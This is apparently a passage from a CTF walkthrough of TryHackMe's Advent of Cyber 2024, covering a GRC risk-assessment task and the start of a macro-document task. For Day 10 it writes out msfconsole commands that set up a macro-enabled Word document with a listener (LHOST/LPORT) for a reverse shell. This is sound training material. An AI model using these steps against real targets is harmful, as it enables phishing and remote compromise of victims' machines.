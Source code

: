    ><details><summary>Click for answer</summary></details>

2. Are you interested in learning more about evasion? Take a look at theAV Evasion: Shellcoderoom.

### Day 9: Nine o'clock, make GRC fun, tell no one.

1. What does GRC stand for?

   The answer to this can be found in the text.

   ><details><summary>Click for answer</summary></details>

2. What is the flag you receive after performing the risk assessment?

   For this flag, we need to perform a risk assessment on three third party vendors. A review is done on your assessment to indicate how correct you assessment is.

   ><details><summary>Click for answer</summary></details>

3. If you enjoyed this task, feel free to check out theRisk Managementroom.

### Day 10: He had a brain full of macros, and had shells in his soul.

1. What is the flag value inside theflag.txtfile that’s located on the Administrator’s desktop?

   First we must create our macro enabled Word document using `msfconsole`.

   ```cmd
   msfconsole

   search office word
   use 15
   show options

   set LHOST 10.11.101.240
   set LPORT 1337
   ```

   Notice that it automatically switching to the correct payload.

   ![Create Document](Pictures/Advent_of_Cyber_2024_Day_10_Create_Document.png)
